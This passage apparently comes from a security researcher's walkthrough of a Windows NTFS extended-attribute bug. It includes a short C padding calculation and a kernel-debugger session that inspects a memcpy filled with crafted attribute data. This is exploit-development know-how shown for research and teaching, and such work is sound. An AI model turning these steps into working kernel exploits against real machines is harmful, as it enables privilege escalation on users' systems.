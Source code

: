 So we pass the validation, go into the `memcpy` and the padding value will be set to `3`, I just wrote a simple `C` program to do the calcuation for me:

```C
#include<stdio.h>

int main() {

	int block_size = 0x99;

	int padding = ((block_size + 3) & 0xfffffffc) - block_size;
	printf("padding: %d\n", padding);
	return 0;
}

```

```bash
user@user:/tmp$ gcc a.c -o a && ./a
padding: 3
```

After all, it's just padding' up to be a multiple of four, but doing it this way leaves less room for errors, especially while I'm not perfect with doing hex calculations and conversions within my head.

Proceeding to the `memcpy` and inspecting the memory afterwards:

```
// pc - continue up to the next `call` instruction
1: kd> pc
Ntfs!NtfsQueryEaUserEaList+0x1c5:
fffff803`0cb8c2e9 e81258f5ff      call    Ntfs!memcpy (fffff803`0cae1b00)

// calling convention is function_call(rcx, rdx, r8, r9, <values on stack>)
1: kd> r rcx, rdx, r8
rcx=ffffd889349859d0 rdx=ffffc60a464810e0 r8=0000000000000099

// step over the execution
1: kd> p
Ntfs!NtfsQueryEaUserEaList+0x1ca:
fffff803`0cb8c2ee 41897d00        mov     dword ptr [r13],edi

// inspect the written data
1: kd> db ffffd889349859d0 l0x99
ffffd889`349859d0  9c 00 00 00 00 0f 81 00-55 53 45 52 2e 43 4f 4d  ........USER.COM
ffffd889`349859e0  4d 45 4e 54 33 32 31 00-54 68 69 73 20 69 73 20  MENT321.This is 
ffffd889`349859f0  61 20 63 6f ff 6d 65 6e-74 31 32 33 41 41 41 41  a co.ment123AAAA
ffffd889`34985a00  42 42 42 42 43 43 43 43-44 44 44 44 45 45 45 45  BBBBCCCCDDDDEEEE
ffffd889`34985a10  46 46 46 46 41 41 41 41-42 42 42 42 43 43 43 43  FFFFAAAABBBBCCCC
ffffd889`34985a20  44 44 44 44 45 45 45 45-46 46 46 46 47 47 47 47  DDDDEEEEFFFFGGGG
ffffd889`34985a30  48 48 48 48 4a 4a 4a 4a-4b 4b 4b 4b 4c 4c 4c 4c  HHHHJJJJKKKKLLLL
ffffd889`34985a40  4d 4d 4d 4d 4e 4e 4e 4e-4f 4f 4f 4f 50 50 50 50  MMMMNNNNOOOOPPPP
ffffd889`34985a50  01 02 03 04 05 06 07 08-01 02 03 04 05 06 07 08  ................
ffffd889`34985a60  01 02 03 04 05 06 07 08-00                       .........
```
